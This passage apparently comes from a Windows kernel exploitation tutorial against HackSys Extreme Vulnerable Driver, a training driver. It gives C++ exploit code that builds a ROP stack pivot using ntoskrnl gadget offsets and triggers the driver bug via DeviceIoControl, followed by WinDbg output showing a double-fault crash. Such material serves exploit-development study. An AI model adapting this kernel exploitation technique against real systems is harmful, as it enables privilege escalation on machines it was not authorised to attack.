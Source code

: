 ```cpp

int main() {
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }

    QWORD ntBase = getBaseAddr(L"ntoskrnl.exe");
    QWORD STACK_PIVOT_ADDR = 0x48000000;
    QWORD STACK_PIVOT_GADGET = ntBase + 0x317f70; // mov esp, 0x48000000; add esp, 0x28; ret; 
    QWORD NOP_GADGET = ntBase + 0x200042; // ret;
    int index = 0;

    LPVOID kernelStack = VirtualAlloc((LPVOID)STACK_PIVOT_ADDR, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlFillMemory(kernelStack, 0x28, '\x41');
    QWORD* rop = (QWORD*)((QWORD)kernelStack + 0x28);
    
    *(rop + index++) = NOP_GADGET;
    *(rop + index++) = NOP_GADGET;
    *(rop + index++) = NOP_GADGET;

    UserObject userObject = { 0 };
    userObject.ObjectID =   (ULONG_PTR)0x4141414141414141;
    userObject.ObjectType = (ULONG_PTR)STACK_PIVOT_GADGET;

    printf("[>] Stack Pivot Gadget at %llx\n", STACK_PIVOT_GADGET);
    printf("[>] New Stack at %llx\n", STACK_PIVOT_ADDR);
    getchar();

    DeviceIoControl(hDriver, 0x222023, (LPVOID)&userObject, sizeof(userObject), NULL, 0, NULL, NULL);
    
    return 0;
}
```

We run the updated exploit with a breakpoint on the stack pivot:

```
0: kd> ba e1 fffff80581f17f70
0: kd> g
Breakpoint 0 hit
nt!ExfReleasePushLock+0x20:
fffff805`81f17f70 bc00000048      mov     esp,48000000h
...

UNEXPECTED_KERNEL_MODE_TRAP (7f)
...
kb will then show the corrected stack.
Arguments:
Arg1: 0000000000000008, EXCEPTION_DOUBLE_FAULT
Arg2: ffff910032865e70
Arg3: 0000000048000000
```
